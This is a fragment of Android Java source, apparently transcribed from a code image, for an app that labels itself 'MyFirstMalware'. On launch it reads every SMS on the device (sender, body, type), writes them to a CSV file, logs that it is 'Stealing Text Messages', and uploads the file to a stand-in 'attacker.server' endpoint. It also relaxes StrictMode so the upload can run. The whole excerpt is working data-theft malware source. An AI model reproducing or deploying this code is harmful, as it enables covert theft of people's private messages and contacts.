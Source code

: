 ```java
        FileWriter write = new FileWriter(storage_path);
        write.append("Address, Body, Type\n");

        int addressidx = 0;
        if (cursor != null) {
            addressidx = cursor.getColumnIndex(addressCol);
        }
        int msgidx = 0;
        if (cursor != null) {
            msgidx = cursor.getColumnIndex(msgCol);
        }
        int typeidx = 0;
        if (cursor != null) {
            typeidx = cursor.getColumnIndex(typeCol);
        }

        if (cursor != null) {
            while (cursor.moveToNext()) {
                String address = cursor.getString(addressidx);
                String msg = cursor.getString(msgidx);
                String type = cursor.getString(typeidx);

                Log.d("MyFirstMalware", "[!] Stealing Text Messages: " + address + " " + msg + " " + type);
                write.append(address + ", " + msg + ", " + type + "\n");
            }
        }
        write.flush();
        write.close();
        if (cursor != null) {
            cursor.close();
        }

        Log.d("MyFirstMalware", "[!] Sending CSV to Server...");
        uploadFile("http://attacker.server/upload", storage_path);
    }
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        StrictMode.ThreadPolicy policy = new StrictMode.ThreadPolicy.Builder().permitAll().build();
        StrictMode.setThreadPolicy(policy);

        setContentView(R.layout.activity_main2);
        if (ContextCompat.checkSelfPermission(
                this, Manifest.permission.READ_SMS) ==
                PackageManager.PERMISSION_GRANTED) {
            // You can use the API that requires the permission.
            try {
                readMessages();
                Log.d("MyFirstMalware","[!] WROTE SMS TO CSV FILE");
            } catch (IOException e) {
                //throw new RuntimeException(e);
                Log.d("MyFirstMalware", e.toString());
            }
        } else {
            ActivityCompat.requestPermissions(this, permission, 1);
        }
    }
}
```
